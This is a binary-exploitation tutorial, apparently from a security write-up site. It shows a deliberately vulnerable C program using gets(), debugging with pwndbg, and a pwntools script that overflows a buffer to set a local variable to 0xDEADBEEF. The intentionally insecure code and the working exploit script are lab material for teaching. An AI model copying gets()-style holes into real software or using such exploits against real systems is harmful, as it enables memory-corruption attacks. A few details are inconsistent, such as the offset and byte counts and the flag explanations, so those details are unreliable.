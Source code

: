 ```yaml
---
description: 10/11/2023
cover: https://lparchive.org/ROM-Corruption-Megathread/Images/1-12z1X7C.gif
coverY: 0
---
```


# 🖊️ Memory Corruption: Overwriting Local Variables

## Introduction

Did you know that you can overwrite local variables on the stack and change the program's logic?

Here, we'll be going over that!

## Target

`vuln.c`**:**

```c
// A binary exploitation demonstration focusing on overwriting local variables on the stack.

#include <stdio.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[])
{
    volatile int hackme;
    char buffer[100];

    puts("Can you overwrite the variable on the stack?\n");

    hackme = 0;
    gets(buffer);

    // if(strcmp(buffer, "0xDEADBEEF") == 0)
    if(hackme == 0xDEADBEEF)
    {
        printf("Access Granted, you changed the variable!\n");
        hackme = 0;
    }

    else
    {
        printf("Try harder!\n");
    }

    return 0;
}
```

### The Vulnerability

As you can see, we have a <mark style="color:yellow;">vulnerable</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`gets()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">function</mark> that will write our input into the buffer variable that is allocated for 100-bytes of data.

The reason `gets()` is vulnerable is because <mark style="color:yellow;">it performs zero checks for writing past the data length of 100-bytes</mark>.&#x20;

Ultimately allowing us to overflow the buffer, overwrite memory, and control the flow of execution.

### Compile

```
gcc vuln.c -o vuln -Q -g -fno-stack-protector -z execstack -no-pie
```

## Enumeration

#### `file`:

{% code overflow="wrap" %}
```
vuln: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=acd5e5a4a583c059d16b17798e2c5da129f27edb, for GNU/Linux 3.2.0, with debug_info, not stripped
```
{% endcode %}

#### `checksec`:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

## Dynamic Analysis w/ `pwndbg`

#### Load binary into `pwndbg`:

```
gdb vuln -q
```

* `-q` will load the symbols into the debugger and grant us access to the source code within the debugging window

#### Place a breakpoint on `main()` and run the binary:

```
b main
r
```

<figure><img src="../.gitbook/assets/image (169).png" alt=""><figcaption><p>Analyzing the binary in <code>pwndbg</code></p></figcaption></figure>

#### Generate a cyclic pattern of 200-bytes (because of our 100-byte buffer):

```
cyclic 200
```

* Copy the entire string

#### Run the program and send the pattern in as input:

```
c

Continuing.
Can you overwrite the variable on the stack?

aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
Try harder!
Program received signal SIGSEGV, Segmentation fault.
```

The program will seg fault.

<figure><img src="../.gitbook/assets/image (172).png" alt=""><figcaption><p>Seeing value of <code>RBP</code></p></figcaption></figure>

#### Obtain the offset of the overwritten `RBP` value:

```
cyclic -l oaaaaaaa
Finding cyclic pattern of 8 bytes: b'oaaaaaaa' (hex: 0x6f61616161616161)
Found at offset 112
```

<mark style="color:yellow;">Perfect, we now have our padding</mark>.

We want to actually utilize 108-bytes of junk data (`A`'s) here and then make the next 8-bytes `'0xDEADBEEF'` in little endian, `'\xEF\xBE\xAD\xDE'`.

#### Payload Structure:

```
[108-bytes of A's (Junk)] + [8-bytes for overwriting the variable: \xEF\xBE\xAD\xDE]
```

## Exploit Development

```python
from pwn import *

exe = ELF('./vuln')

# Uncomment one or the other for proper process startup -- local or debugger?
def conn():
    if args.LOCAL:  
        r = process([exe.path])                   # Just start the local process
        # r = gdb.debug([exe.path])                   # Open with pwndbg debugger
    else:
        r = remote("127.0.0.1", 9999)

    return r

def main():

    r = conn()

    padding = b'A'*108

    deadbeef = b'\xEF\xBE\xAD\xDE'

    payload = b''.join([
        padding,
        deadbeef
    ])

    print("payload:", payload)
    write("payload", payload)

    r.sendline(payload)

    r.interactive()

if __name__ == "__main__":
    main()
```

#### Automated Exploitation

```
python3 exploit.py LOCAL
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Obtaining the winning condition</p></figcaption></figure>

#### Manual Exploitation

#### With our payload being saved to a file named `payload`, we can manually pwn this binary:

```python
./vuln < payload
Can you overwrite the variable on the stack?

Access Granted, you changed the variable!
```
